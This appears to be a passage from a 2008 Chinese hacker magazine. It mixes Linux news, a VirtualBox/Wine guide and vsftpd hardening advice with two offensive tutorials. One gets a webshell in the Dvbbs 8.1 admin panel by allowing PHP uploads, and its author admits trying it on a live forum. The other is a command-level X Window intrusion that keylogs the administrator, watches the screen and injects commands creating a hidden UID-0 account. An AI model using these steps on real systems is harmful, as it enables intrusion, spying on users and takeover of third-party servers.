**南京白动化研究院 冯名**

从本文可以学到：通过 PHP 拿动网 8.1 版 webshell

大家好，前面有篇文章讲了动网 8.1 版的最新的注入漏洞，但是，进入后台以后，我们怎么样才能拿到 webshell 呢？这个问题困扰了我好久。在动网 8.0 版时，数据库默认路径是可以修改的，那个时候可以在本地新建一个数据库文件，在数据库文件里新建一张表，表里插入 asp 小马，把数据库后缀名改成 txt，就可以上传上去了。然后，再通过数据库备份，把上传上去的插入小马的 txt 文件备份成 asp 小马。但是，动网 8.1 版的数据库路径不让修改。

改，它是通过读取数据库表变量名获得的，非常麻烦。

在网上找了一圈，没有找到好的办法，后来经过几天的测试，终于找出了动网 8.1 版后台拿 webshell 的方法，下面给大家讲讲具体的实现过程。

大家看到了吧？就这么简单！不过前提条件是服务器要能支持 php 文件才行，因此，这个方法局限性太大了。下面给大家讲讲另一个后台拿 webshell 的方法，比这个上传 php 文件的方法好，实用性也大多了。

## 1、改后缀名 php 上传法

大家看标题就知道了，是修改上传设置，然后上传一个 php 文件到服务器上去，如果服务器支持 php，可以这样做。

在动网 8.1 的 boke 模块里，用户可以自定义上传文件类型，不过 asp、asa、cer 的文件都不让上传，但是 php 的文件可以上传。首先，我们进入后台，找到“论坛博客”模块，然后修改上传文件设置，在上传文件设置处加上 php 文件后缀名，如图 1。

再随便找一个用户，在 blog 发表文章处可以上传文件，上传一个 php 文件和一个 jpg 文件，再到后台找到 boke 模块，在上传文件管理处，可以看到我们刚才上传的两个文件，如图 2。

这里为什么要上传一个 jpg 的文件呢？主要是为了找路径方便，大家点击一下图片文件就会在浏览器中访问，我们只要把后面一串文件名换成对应的 php 文件就行了。

## 2、建 asa 文件夹解析法

请参考本期另外一篇 Cool_wXd 写的文章《动网 8.1.1 版后台获取 webshell》。

## 3、总结

动网后台拿 webshell 讲完了，这两种方法都有一定的局限性，但是现在 2003 的服务器还是很多的，因此第二种方法更实用。不过，麻烦的就是，对于不同大小的数据库，插入代码的地方都不一样，大家在拿到后台以后，可以把数据库下载下来，在本地进行测试，测试没问题了，再插入代码。

昨天，我就直接在一个论坛后台插入代码，结果导致论坛访问出错了。如果文章中有什么不明白的地方，可以到黑手论坛给我留言，我的 ID 是 rabbitsafe，或者加我 QQ：3818718，请注明来意。

> **编辑点评：**

本篇文章说到的第二种方法和 Cool_wXd 同学写的《动网 8.1.1 版后台获取 webshell》一文使用的方法和原理基本相同，考虑到 Cool_wXd 同学的文章投稿时间比较早，优先采用，所以本篇重复的部分被小编 K 掉，只留下了不同的内容，最后友情提醒“请尽量早点投稿，以防和其他差不多的文章撞车”。

> 最近有 2 个热点在让风景关注：一个就是各厂商开始发售预装 Linux 的电脑；还有一个就是最近虚拟化技术的发展。略有传统的感觉，XP 以后的操作系统会怎样发展，虚拟化就是一个不错的追踪方向，尽管像我个人对操作系统比较顽固。近期微软也宣称会支持 Xen，前途是一片光明啊。

## Linews

## 1、红帽发布内置集成虚拟化

2007 年 12 月 13 日全球开源解决方案的领导者 Red Hat（NYSE: RHT）发布内置集成虚拟化，以此帮助企业在软件、硬件或者操作系统方面在没有任何额外支出的情况下充分利用虚拟化技术。

红帽公司的虚拟化能力是集成在红帽企业 Linux 5 操作系统中的，并且对于企业来说不会增加任何成本。

红帽公司亚太区总裁 Gery Messer 表示：“当企业处于压力之下的时候，会对成本的利用更有效率，在这样的情况下，红帽公司的内置集成虚拟化应该是市场上最有吸引力的技术。虚拟化是完全集成在红帽企业 Linux 5 中的。它是内置的，完全不需要任何额外支出。它所提供的高性能平台可以虚拟即使是最严苛的工作负载，与此同时由于其开源技术，因而也是最安全的虚拟化解决方案。”

> **风景点评：**

早在 Red Hat 之前，已经有不少 Linux 发行版集成了虚拟化技术，但 Red Hat 的动作还是值得我们关注。作为一个 Linux “大户”，Red Hat 会给虚拟化技术的发展产生相当大的作用。

## 2、Windows 和 Linux 都将灭亡，虚拟机取而代之？

据国外媒体报道，著名虚拟化软件厂商 VMware 首席科学家兼联合创始人 Mendel Rosenblum 目前表示，今天的现代化操作系统迟早将被淘汰。

Rosenblum 本周四称，虚拟化技术最终将淘汰当前复杂的，甚至是有些臃肿的操作系统。毫无疑问，Rosenblum 的言论肯定会让微软和 Linux 厂商感到不满。

Rosenblum 的设想是，将虚拟层直接与处理器和其他计算机硬件通信，运行在虚拟层上的虚拟机或微型操作系统，将操作系统和软件融合成一个模块，这样会更加稳定、安全，在保证性能的前提下且易于管理。

Rosenblum 还称，操作系统，尤其是 Windows 系统，已经成为一个庞然大物。如此复杂的架构使软件本身变得不可靠，同时也不易于管理。另外，也不利于创新。这就是微软当前所面临的尴尬境地，尽管拥有大量的工程师，但还是很难做出一些东西。

> **风景点评：**

对于这个观点，风景个人非常支持，为什么 Windows 和 Linux 要水火不容？难道它们不能拥有一个共同的核心？这样不仅对用户更加友好，也降低了操作系统的开发难度。不是一举两得吗？

## 3、红旗正版化开创呼和浩特网吧建设新起点

日前，内蒙古呼和浩特网吧行业软件正版化建设工程全面采用了红旗 Linux 服务器操作系统软件，满足了当地网吧对系统软件稳定可靠、安全，图形界面友好清晰、操作性强、使用便捷的实际需要，有效推动了呼和浩特市软件正版化的推进工作。此外，由于采用了具有高可靠性能的国产红旗软件，多台服务器的正版软件使用价格较低，该项目也为当地网吧节约了大量资金，保证此次改造以最小的投入实现最满意的效果。这是红旗软件在地方信息化建设中传来的又一喜讯，作为我国 Linux 市场的领导者，红旗软件企业在信息化推进中发挥出越来越重要的推动作用。方案实施后获得当地用户的一致好评，他们纷纷表示：基于红旗 Linux 的服务器操作系统具有安全、可靠、便捷的特点，能有效解决目前设备故障频出的的问题。同时，因为节约了大量资金，网吧也能够在环境、硬件等各方面进行升级改造，有效提升了呼和浩特市网吧行业的整体水平。

> 风狐点评：

现在国内红旗 Linux 的发展让人感到欣慰，毕竟是我们自己的东西，当然要支持了。最近一段时间红旗的动作也不少，从政府到公司的整体解决方案，再到网吧等场所，红旗正一步一步走向成熟，中国的 Linux 市场也在逐步成熟。

# Ubuntu 桌面环境体验——虚拟机与游戏篇

从本文您可以学到：

- Ubuntu 下虚拟机的相关知识
- 利用 Wine 运行游戏

新年快乐！不知不觉马上要迎来 2008 鼠年的春节了，相信很多朋友都准备着回家过年，学生朋友们想必都已经放假。在这个辞旧迎新的日子里面，还是希望大家能不忘关心一下最新的技术知识，别老想着吃，毕竟 21 世纪最需要的是人才。2007 年年底，国内某大型网站的年度软件评选中，Ubuntu 一路领先，至本文截稿时的前三甲排名分别为 Ubuntu、WPS Office 和 Vista。这说明 Ubuntu 的国内用户群越来越庞大，知道、了解甚至使用的人也与日俱增。

今天我们的主题是虚拟机与游戏。为什么将这两个话题放在一起呢？因为 Linux 下面的商业游戏实在是很少，而 Windows 下面的商业游戏非常丰富，所以我们可以利用虚拟技术将 Windows 下面的游戏放在 Linux 下面运行。相信很多游戏玩家兼技术爱好者都很期待，这样不用在研究 Linux 技术的时候进 Linux，而想玩游戏的时候又得重启机器进 Windows 了。让我们开始今天的话题吧。

Virtualization，虚拟化，这是一个很古老的话题，其实 PC 上从 386 开始就有这个技术了，那个时候可以用 386 来同时运行几个不同 8086 的 DOS 程序，这在当时算是很新的技术，当然现在多任务系统已经普及了。虚拟化技术不是多任务系统，因为虚拟化可以使一台机器同时执行多个操作系统，而多任务系统显然不能做这件事情。那什么情况下需要这项技术呢？大而言之，企业服务器需要虚拟化，现在的 CPU 都非常强大，一台机器如果就安装一个操作系统的话，对 CPU 自是一种极大的浪费，有了虚拟化技术，一台 4 路 CPU 的服务器上面能同时运行 30 个操作系统，能降低运营成本，节省服务器资源。那对个人用户有什么意义呢？又不需要架服务器……其实虚拟化对本刊读者而言，可以让用户在不同的操作系统上面无缝地切换，一可以在没有网络环境的情况下学习网络知识；家庭用户无需安装配置局域网就能学习研究网络环境，现在的主流 CPU 和内存同时开两个虚拟操作系统不会卡；二对于某些应用程序只在 Linux 或者 Windows 下面专用，想要在 Linux 下面运行某些 Windows 程序的话就需要安装一个虚拟的 Windows 了，在笔者的电脑上安装的虚拟 XP 不比真实的 XP 慢，速度完全不是问题。

下面看一下 Linux 下面常用的虚拟机软件，最有名的当属 VMware 了，在 Windows 下面这款商业软件也是最先吸引大陆网民眼球的，不过可惜它是一款商业软件，Ubuntu 默认是不包含 VMware 套件的。不过值得一提的是 VMware 软件很多版本都已经免费提供下载使用了，用户只需去其公司网站 http://www.vmware.com/ 注册下载即可。安装使用和 Windows 下面类似，这里就不再累述了。Linux 下面重量级的企业虚拟软件当属 Xen，但是个人用户使用的不是很多，如果想学习一下架设虚拟服务器的朋友可以找资料研究一下 Xen，这里也略过了。

下面介绍一下 Ubuntu 当今正红的虚拟软件，VirtualBox，官方网站为 http://www.virtualbox.org/，它有开源版本和闭源版本，开源版本完全基于 GPL 协议，但是少了某些功能，Ubuntu 自带的版本就是 virtual-ose 的版本。在稳定版本里面，打开终端输入如下命令即可安装 virtualbox-ose 版本：

```bash
sudo apt-get install virtualbox-ose virtualbox-ose-modules
```

安装好以后可以从“应用程序—系统工具—innotek VirtualBox”打开。默认界面如图 1 所示。

图 1 VirtualBox 的界面

点击左上的“新建”按钮，跟着对话框一步一步地建立好一个虚拟主机。其中安装硬盘的时候要注意一下，如果你有 VMware 的虚拟硬盘可以直接在 VirtualBox 上面应用，如果没有的话新建一个，大小别太小，因为是动态分配的，最大可以建立的硬盘大小是 2TB，应该足够用了。怎么安装 Windows 不属于本文的范围了。安装过程和在真实机器下面没有什么不一样，图 2 是笔者在 WinPE 下面用 Ghost 安装的 XP，安装时间只需要 2 分半。进入系统以后点击菜单栏上的“设备—安装虚拟电脑工具包”，重启 Windows 以后就能正常地使用了。在主操作系统和子操作系统之间切换鼠标可以用右 Ctrl 键，当然也可以从主窗口的“文件—首…”。

图 2 安装 XP

选项“输入”里面改成其他的键。VirtualBox 有许多优点：比如窗口可以任意地改变大小；对应的桌面可以随着窗口大小改变而适应，而不会出现滚动条。它有个其他软件没有的特别功能——无缝模式，在 Ctrl + L 上就可以开启。如图 3，这张图片粗看没有什么两样，但是仔细一看就会发现，顶上是 Gnome 的任务栏，而底下是 XP 的任务栏，这可不是用 Photoshop 修改的。这种模式的好处不言而喻，想用哪个程序就用哪个，Linux 下面没有官方的 QQ，就暂时用 Windows 下面的，其他软件也是这样子。不过开启虚拟机的代价是机器别太差，像笔者的机器最差的奔腾双核 + 2G 的内存就能流畅地运行虚拟机了，因为 VirtualBox 中默认的 XP 内存才 192M，所以一般有 1G 内存也能流畅运行了。


那主系统怎么和子系统交换文件呢？在 XP 窗口菜单上有“设备 - 共享文件夹”，里面可以设置 Linux 和 Windows 共享，如图 4。Linux 的主机名在 VirtualBox 里面是 vboxsvr，所以在 XP 下访问如下的路径 `\\vboxsvr\home` 就可访问 Linux 下的 home 目录，非常方便，更方便的可以做个网络映射。

当然 VirtualBox 不是万能的，虽然常见的应用软件，比如 Office 系列、Photoshop、AutoCAD 等等都能完美支持，但是对于广大的游戏迷来说有着一个致命的弱点，那就是不支持 3D 游戏，对 DirectX 支持不好。所以在 VirtualBox 下面办公还是马马虎虎，但是娱乐就差了点。那 Linux 下面是不是不支持 Windows 下面好玩的游戏呢？玩游戏是不是一定要到 Windows 下面呢？聪明的程序员们当然不这么想，所以他们发明了 Wine。Wine 是什么呢？

“首先，Linux 是免费的，和老婆上床当然不用要钱，妓女的 Windows 都是要 money 的啊！……虽然 Linux 可以帮你完成绝大部分事情，但偶尔你想 happy 一下的时候还得找 Windows；Linux 下的游戏好是好一些，就像你偶尔想找点小姐陪的话，只好花钱找小姐了。如果你实在不愿意找小姐，又想享受刺激的话可以用 Wine，酒精会让你老婆更激情，但感觉似乎还是不如职业小姐；让你老婆喝这么多酒也不是一件容易的事；Wine 的配置很麻烦。”这是网上广为流传的一篇名叫《Linux 像老婆，Windows 像妓女》的其中一段，形象地描述了 Wine 的用途，Wine 是一款可以在 Linux 下面运行 Windows 程序的程序。

Wine 的安装也非常简单，直接 `sudo apt-get install wine` 即可；现在的 Wine 也基本上不需要做什么配置就能正常工作了。Wine 运行 Windows 程序的一般格式是：`wine + 程序的名字`，运行 `wine .\notepad` 可以测试你的 Wine 是否正常工作，如图 5；`winecfg` 可以配置 Wine，如图 6。因为笔者不是游戏迷，平时也不玩网络游戏，这里仅提供一张 Wine 运行英雄无敌 3 的截图，英雄无敌 3 有 Linux 下面的原生版本；只是版本太低，这里提供的是死亡阴影的任务版截图，如图 7 所示。更多 Wine 可以运行的程序与截图请查阅 Wine 的官方主页 http://appdb.winehq.org/，基本上所有流行的游戏都能在 Wine 上运行，当然前提是你有足够强劲的显卡，一般只要 Windows 下面能流畅运行的到 Linux 下面基本上都可以流畅运行；比如魔兽世界、魔兽争霸、极品飞车 10 等等。如果有不能运行的程序或者游戏，请查看输出的错误，一般缺少了某些 dll 文件，只需要把缺少的文件拷贝到 `~/.wine/drive_c/windows/system32/` 即可，当然对于少数程序 Wine 支持得不是很好，但那只是很小一部分了。


Wine 有一个商业化的分支，Cedega，主页在 http://www.transgaming.com/，专门为 Windows 下面的商业游戏进行优化支持，已经支持的游戏多达几百个，常见的流行的游戏基本上都支持，最新的游戏支持列表可以查询 http://games.cedega.com/gamesdb/。有兴趣的朋友可以找一下 deb 包安装试用，因为属于商业软件，所以不在这里详细地讲解。很可惜我试用了一下，Cedega 不支持我喜爱的英雄无敌 3，可能它不是 3D 的吧……


有了 VirtualBox 和 Wine，我想再也没有什么难题能难倒聪明的你了，Linux 下面没有的软件就打开虚拟的 XP 运行 Windows 下面的软件，偶尔想放松一下心情玩玩喜欢的游戏那就 Wine 一下，生活就是这样的美妙，最后还是祝大家新年快乐！

## 编辑点评

关于虚拟机，小编个人觉得没有必要，因为目前大多数工作都能在 Linux 上找到相应的程序，毕竟虚拟机的速度没有主系统的快。如果你真的对虚拟化技术感兴趣，那我建议你去了解一下 Xen，而不是单纯地停留在虚拟机上。游戏嘛，随着 Linux 的普及，Linux 游戏市场有很大的潜力，但还不是现在。玩游戏还是到 Windows 吧。

## Unix 系统安全——文件服务器篇

evilangel

从本文您可以学到：

- Unix 文件服务器的安全相关

对于文件服务器，各位一定都用过，Unix 文件服务器由于出色的性能、安全稳定等，在每个行业都有着很多的用户。这次，我们从 Unix 系统安全角度来讨论一下文件服务器的安全相关！

我们所说 Unix 系统安全，并不能把 UNIX 所有系统全部列出来，我只用 Unix 系统中两个分支 BSD 和 Linux 来演示。BSD 用 FreeBSD 6.2 系统演示，而 Linux 用 RHEL4 来说。那位说了，Unix 系统不是都一样的吗？其实不然，在 UNIX 系统有很多共性，其每个分支都有其特性。比如，你用了 RedHat 系统的 vi 编辑器，再来用 FreeBSD 的 vi 编辑器，你会发现很不爽；而用 OpenBSD 的 vi 编辑器更不爽，其实它们都是标准的 vi 编辑器，但是 RedHat 系统的人性化、智能化了。其实 FreeBSD 常用的编辑器是 ee，而 OpenBSD 常用的是 mg；这就是共性和特性问题。

演示环境说明，我们用 PuTTY 软件，远程登录到服务器来为大家演示。

- A 服务器：IP 地址：10.0.0.252；操作系统：FreeBSD 6.2；
- B 服务器：IP 地址：10.0.0.4；操作系统：Red Hat Enterprise Linux 4，以下简称 RHEL4。

我们两台服务器都要安装 FTP 软件，我用 vsftpd，下载地址 www.vsftpd.org，用 “make; make install” 就可以安装成功。我们主要讨论文件服务器的安全问题，并不是文件服务器的教学，所以使 FTP 服务可以正常工作的设置，大家可以参照《黑客手册》以前的文章及网络上的资料。

为了测试服务器安装运行成功与否，随意建个普通用户 nohack，用 FreeBSD 服务器登录 RHEL4 服务器的 FTP 服务，如图 1，没问题，可以成功登录并上传。然而问题也同时出现了，nohack 用户可以使用 FTP 服务的同时，也可以远程登录 SSH 服务，如图 2。这代表什么？他可以把任何文件传到服务器上的任何权限为 777 的目录，并且运行它，这代表他可以把任何 xx6 或 xx7 权限的文件删除。

这个我暂时不说怎么补救，先来看个更吓人的。我们用具有类 Unix 系统绝对权限的 root 用户来登录 FTP 服务器，如图 3，root 用户也可以登录服务器，并且可以看别人的文件！当然也具有 root 的权限。作为一台 Web 服务器提供 FTP 账号是必然的，作为一台文件服务器提供给用户 FTP 账号也是必然的；如果每个账号可以享有多种服务，那么服务器不就像个菜市场了吗？这也是我们今天所要说的正题。

避免以上问题，一般需要完成三个目标。第一，禁止 root 及其它系统管理用户登录 FTP 服务器；第二，禁止 FTP 用户享受其它服务的权限；第三，禁止享有 FTP 服务的用户转出自己的目录；我们的演示在 FreeBSD 和 RHEL4 系统同时实现。

第一个任务很好完成，用 pam 认证搞定它。大家看到 `/etc/pam.d/ftp` 文件了没？没看到啊，到安装目录的 RedHat 目录 copy 一个 vsftpd.pam 过去就成了。vi 打开它，如图 4，我们看第一句话，大意是登录 FTP 服务必须经过 pam_listfile.so 认证，认证什么类型呢？用户（item=user），认证了如何处理呢？——拒绝（sense=deny），而 `/etc/ftpusers` 文件的用户作为认证用户，如果认证失败了呢？立即停止认证（required），ftpusers 文件中的用户都被拒绝了。以上是我用自己的语言解释的，只是为了大家能更好地理解。RHEL4 默认没有这个文件，而 FreeBSD 系统默认就有这个文件，而且把系统用户都加到这个文件中去了。

在 `/etc/ftpusers` 文件中加入 root 用户并重启 FTP 服务器，重启 FTP 要用 `killall HUP vsftpd`，注意大小写，FreeBSD 中 HUP 是无所谓。再来登录 FTP 服务器，如图 5，这时 root 用户被拒绝而 nohack 用户依然可以成功登录。

一般的网管会把所有非授权 FTP 服务的用户一次性加入到 ftpusers 文件中去，但是这也会带来一定的问题。如果你的服务器不是专机专用服务器，如果你有大量的用户，那么总有一天成百上千个账户你也分不清楚哪个账号是来做什么服务的了。这时我们就要把授权 FTP 服务的用户全部加入到一个文件管理。这时我们看图 4，“认证了如何处理呢？——拒绝（sense=deny）”，如果我们改成 sense=allow（允许），那么把需要提供 FTP 服务的用户加入 `/etc/ftpusers` 不就避免了以上的问题吗？

下面看看 FreeBSD 系统，它和 RHEL4 就不同了。如果你想用 pam_listfile.so 认证模块来搞定那就大错特错了，不信你就试一下。vsftpd 的配置文件中 userlist_enable 及 userlist_deny 默认是不会出现的，不出现，不代表不支持，以上两个参数就可以模拟 Linux 的 pam 模块功能。若 userlist_enable 设置为 YES，则 userlist_file 选项指定文件（默认 `/etc/vsftpd.user_list`）中的用户将无法登录，并且将检查下面的 userlist_deny 选项。若 userlist_deny 为 NO，则仅允许记录在 userlist_file 选项指定文件（默认也是 `/etc/vsftpd.user_list`）中的用户登录，拒绝其它用户。若为 YES，则不允许 vsftpd.user_list 中的用户登录，并拒绝其它用户，也就是说不允许任何用户登录。我画个流程图希望大家都能明白，如图 6。当 userlist_deny=NO 时相当于 Linux 系统 pam_listfile.so 当 sense=allow，只允许 ftpusers 用户登录；如果没有 userlist_deny 选项，那么和 pam_listfile.so 当 sense=deny 相同，拒绝 ftpusers 文件中的用户一样。虽然 Linux 系统和 FreeBSD 系统认证方法不同，但认证功能是一样的。


```text
auth    required    pam_stack.so service=system-auth
auth    required    pam_unix.so
account required    pam_stack.so service=system-auth
password required   pam_stack.so service=system-auth
session required    pam_stack.so service=system-auth
```

图 7 SSHD 认证模块

```text
Connected to 10.0.0.252.
220 Welcome to blah FTP service.
331 Please login with USER and PASS.
530 Please login with USER and PASS.
Kerberos V4 rejected as an authentication type
Name (10.0.0.252:root): nohack
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> quit
221 Goodbye.
ssh 10.0.0.252 -l nohack
pam_login_access: pam_sm_acct_mgmt: check_is_not_allowed: to log in from 10.0.0.6
Permission denied (publickey,keyboard-interactive).
```

图 8 nohack 仍然可以登录 FTP 服务但被 SSH 拒绝

```text
Connected to 10.0.0.4.
220 blah FTP service.
Name (10.0.0.4:anay): nohack
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /Users/nohack
ftp> cd /usr/local
250 Directory successfully changed.
```

图 9 nohack 用户可以跨出根目录

```text
Connected to 10.0.0.4.
220 Welcome to blah FTP service.
Name (10.0.0.4:anay): nohack
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> pwd
Remote directory: /
ftp> cd /usr
550 Failed to change directory.
```

图 10 登录 FTP 服务器的用户被限制在主目录里

我们再看第二个任务。话说，在一台服务器的用户，能登录 FTP 服务，那么他就能登录 SSH 服务，默认是一定的，因为他有服务器的身份。我们想拒绝一部分用户，妨好比一个城市（服务器），它想拒绝一些黑名单（非授权用户）的人来到本城市，有可能他们对城市有危害，城市的老大会让 police（认证模块）在城门口守着，发现有黑名单的立即抵走。

在图 2 中，nohack 这个用户只允许有 FTP 服务，如果他登录 SSH 服务，在这里我们一般叫他越权。在 Linux 系统中，我们刚刚利用 pam_listfile.so 认证模块拒绝非本地用户登录 FTP 服务。那么，我们换个思路，用 pam_listfile.so 拒绝 FTP 用户使用 SSH 服务。先看一下 SSH 的认证模块，`/etc/pam.d/sshd` 如图 7，把 `/etc/pam.d/ftp` 的第一行修改一下加到 sshd 文件的第一行中：`auth required lib/security/pam_listfile.so item=user sense=allow file=/etc/sshusers onerr=succeed`。那么意思不就成了登录 SSH 服务，要由 pam_listfile.so 来认证，它允许（allow）`/etc/sshusers` 确认用户登录，拒绝其它。这次再用 nohack 用户登录，你看看，SSH 登录拒绝了吧！当然，root 也不能登录了，这时候你要把 root 用户及授权用户加入 sshusers 文件中。

我们再来看 FreeBSD 系统如何来实现这个功能。第二个任务 FreeBSD 是用的 vsftpd 的自身认证功能，这回我们也用 pam 模块来搞定。Linux 和 BSD 的 pam 模块用法是不同的，但是可以实现同样的功能，我再来介绍一个模块“pam_login_access.so”。同样编辑 `/etc/pam.d/sshd` 文件，加入：`auth required pam_login_access.so`，大意是用 pam_login_access.so 认证用户账号及密码（auth），必须通过，否则立即结束认证（required）。pam_login_access.so 的认证文件默认是 `/etc/login.access`，在 login.access 文件中加入 `-:nohack:ALL`，有三个字段，第一个字段是拒绝，第二个是用户名、主机名或用户组，第三个字段是区域，可以是域名或 IP 地址，具体的大家可以看下文件内帮助。我们来测试一下效果，如图 8，nohack 仍然享有 FTP 服务，但是登录 SSH 服务被拒绝了，至此我们第二个目标完成了。

虽然系统用户，比如 root，被我们搞得不能登录 FTP 服务，但是问题还存在其它用户身上。如图 9，我们用 nohack 用户从 FreeBSD 系统登录 RHEL4 系统，用 `pwd` 命令可以看到绝对路径，而 `cd /usr/local` 可以切换到其它目录，这和我们之前系统用户是一样的，而后来也和之前所说的一样。

我们说把用户锁定到自己的家目录称为 chroot。解决这种问题很方便，vsftpd 服务器提供了三个关于这方面的参数：chroot_list_enable=YES、chroot_local_user=YES、chroot_list_file=/etc/vsftpd.chroot_list。严格上说，这三个选项不能同时用，第一个是开启 chroot 环境，第二个是本地所有用户全部开启 chroot 环境，第三个是在 `/etc/vsftpd.chroot_list` 文件出现的用户设为 chroot 环境。这么说，大家能看到哪两个不能同时用了吧！方法就是把登录 FTP 用户加到 `/etc/vsftpd.chroot_list` 文件中就搞定了。如图 10，看这回他也不出来了吧！如果想偷懒，只开启 chroot_local_user=YES 就能把所有登录 FTP 的用户全部关在个人主目录里。

## 小结

我们说 Unix 系统，每个版本可能会有自己的认证方法，但说回来，它们都可以实现同样的目的，只是方法不同而已。如果没玩过认证（pam）的读者一定是一头雾水，篇幅有限，所以大家见谅了，如果想更深地了解 Unix 的认证，请继续关注《黑客手册》。

> **编辑点评：**
>
> Unix 的安全机制不是一下子能搞清楚的，文章只介绍了 vsftpd 的相关安全配置，看懂了吗？vsftpd 的配置其实并不难，需要设置的地方也很少，赶快自己动手试试吧。


## 利用 X Window 配置错误入侵 Linux


从本文您可以学到：

如何利用 X Window 配置错误入侵 Linux

常见的漏洞分为软件漏洞和配置漏洞，软件漏洞的挖掘需要扎实的编程功底和对操作系统原理的深入理解；配置漏洞通常是由于管理员自身知识的不足造成的。

在 Linux 环境下，X Window 是用来显示图形界面应用程序的底层系统。X Window 服务的认证通常分为 xhost 和 xauth 认证，xhost 认证的配置方法比较简便，只需在 xhost 命令后键入“+”或“-”选项来分别表示允许或拒绝某个主机访问本地的 X Window 服务就可以了。比如：`xhost +192.168.0.88` 就表示允许 IP 地址为 192.168.0.88 的机器访问本地的 X Window 服务；`xhost -192.168.0.88` 则表示禁止 IP 地址为 192.168.0.88 的机器访问本地的 X Window 服务。可是如果当管理员配置不当，配置成 `xhost +` 这样的通配符方式后，就表示允许任意 IP 地址的主机来访问本地的 X Window 服务，这样的配置是很危险的，远程攻击者可以利用管理员的这个配置漏洞，结合其他的系统服务，轻易地拿到主机的最高权限。

## 一、查点

先来对目标机器进行端口扫描，了解开放的服务。在 Linux 环境下，我选择的是 Nmap 这个扫描之王。扫描结果如图 1 所示。


通过 Nmap 返回的扫描结果，可以得知主机开放了 SSH 服务（22 端口）、X Window 服务（6000 端口）。此时的入侵思路有 2 个：一是通过对 SSH 服务的暴力破解得到主机访问权限，或者如果主机的 SSH 服务采用的版本为 V1，也可以使用 Cain 或 Ettercap 工具对其进行嗅探攻击，从而得到明文连接密码；二是看看 X Window 服务配置是否正确，如果管理员配置不当，那我们的入侵就简单多了。

xscan 是一款在评估 X Window 服务时最常用的扫描工具，该工具可以快速识别一个网段或一台主机的 X Window 服务采用 xhost 认证方法时，激活了“+”通配符（xhost +）这种配置错误的主机。Linux 下的许多工具都是采用源码形式发布的，所以我们首先需要编译一下。命令如下：

```bash
tar -zxf xscan.tar.gz
gcc -o xscan c-snoop.c -o xscan -L/usr/X11R6/lib -lX11
```

xscan 的使用非常简单，在 xscan 后输入要扫描的独立 IP 地址或 IP 网段就可以了。命令如下：

```bash
./xscan 192.168.0.144
```

效果如图 2 所示。

通过 xscan 的扫描结果，可以看到该工具已经连接到了主机 192.168.0.144 的 X Window 服务，并开始捕获 192.168.0.144 这台主机的击键信息，并把记录保存到 `KEYLOG192.168.0.144:0.0` 文件中。


## 二、入侵

从上面对主机的查点，得知了 192.168.0.144 这台主机 X Window 服务的 xhost 认证配置不当，我们可以使用 xwatchwin 这款工具，实时地监控 192.168.0.144 主机的屏幕，了解目标主机的一举一动。xwatchwin 也是采用源码的形式发布的，编译命令如下：

```bash
tar -zxf xwatchwin.tar.gz
gcc -o xwatchwin -L/usr/X11R6/lib -lX11
```

当使用 xwatchwin 时，需要本地的 Linux 平台已经进入图形界面了，否则该工具无法成功使用。工具的使用命令如下：

```bash
./xwatchwin 192.168.0.144 root
```

输入完上面的命令后，就会弹出一个窗口，我们就可以实时地监视 192.168.0.144 这台主机的一举一动了，效果如图 3 所示。


如果只想知道目标主机的击键情况，也为了节省带宽，又或者当目标主机的管理员键入的密码被显示为 * 号字符（登录邮箱、论坛）时，可以使用 xspy 这款工具，实时地记录目标主机的键盘记录，从而得到敏感的信息，方便我们进一步入侵。在编译 xspy 的时候，如果你的 Linux 主机已经包括了 usleep 函数，需要修改一下 Imakefile 文件，把其中的 usleep.c 和 usleep.o 删除，这样才能正常编译。如图 4。


```bash
xmkmf; make
```

使用方法为：

```bash
./xspy -display 192.168.0.144:0
```

这时你就可以看到目标主机管理员的键盘记录信息了，如图 5。

通过对 192.168.0.144 这台主机的实时监视过程中，我发现管理员大部分时间只是上网冲浪，配合 xspy 的键盘记录，我得到了管理员的邮箱密码，但是当尝试使用 SSH 登录的时候，账号并不正确。又等了好久，发现管理员打开了一个终端命令行，正在配置 Apache 的相关信息，我们的机会来了，可以通过 Xtester 这款工具直接发送添加管理员的命令到目标主机的终端命令行窗口，然后再登录 SSH。

编译 Xtester.c 的时候，程序作者并没有把 C 文件的相关头文件包含进代码中，所以需要我们手动添加，如图 6。


Xtester 的编译命令如下：

```bash
gcc xtester.c -o xtester -lXtst -lX11 -L/usr/X11R6/lib
```

使用 Xtester 前，需要知道终端命令行窗口的十六进制 ID 值，可以使用 Linux 系统自带的 xwininfo 得到。命令如下：

```bash
xwininfo -tree -root -display 192.168.0.144 | grep -i 'konsole'
```


通过 grep 过滤出目标主机的终端命令行（konsole）窗口的 ID 值为 0x1e00008，就可以使用 Xtester 来发送我们的击键到这个窗口了。命令如下：

```bash
./xtester 0x1e00008 192.168.0.144:0
```

输入完上述命令后，会弹出一个小窗口，此时就可以输入添加管理员的命令了。现在的输入是没有回显的，所以要仔细输入。我的经验是输入每次命令前和命令后多按几次回车，可以增加成功率。Linux 下添加系统管理员的命令如下：

```bash
useradd -g 0 -u 0 -o mickey

echo 'mickey:minnie' | chpasswd
```

这两条命令的意思为：添加一个具有 root 权限的用户名为 mickey、密码为 minnie 的系统账号，效果如图 7。

现在就可以使用 SSH 登录了，命令如下：

```bash
ssh -l mickey -T 192.168.0.144
```

## 三、结束语

可以看出 Linux 下的入侵对我等小菜来说，主要难点还是编译利用代码。我在编译代码的时候经常出现错误，不是找不到相关的库文件路径，就是程序本身的代码缺少头文件或书写语句结束，这时候可以去 Google 一下，得到相关的帮助。我也是刚学 Linux，如果有错误的地方，还请各位高手斧正。

**编辑点评：**

Linux 是一个安全的操作系统，但这并不表示它的默认配置也是很安全的，易用和安全需要一个平衡，今天小菜们是不是又学了一招？

> Zero 首语：
>
> 每一朵花蕾的绽放都意味着一个新生命的开始。生如夏花，多彩绚烂，生命是上帝赐予我们最珍贵的礼物，有了生命，就有了绿色，有了希望，就有了追梦的方向。珍爱生命，即便昙花一现，也会有最美丽的瞬间。

## 网管日记

### 之有人在免费

“麻烦把你的上网卡给我看下！”好像对待这种第一次遇到的事情总是这么有耐心，我如是说。

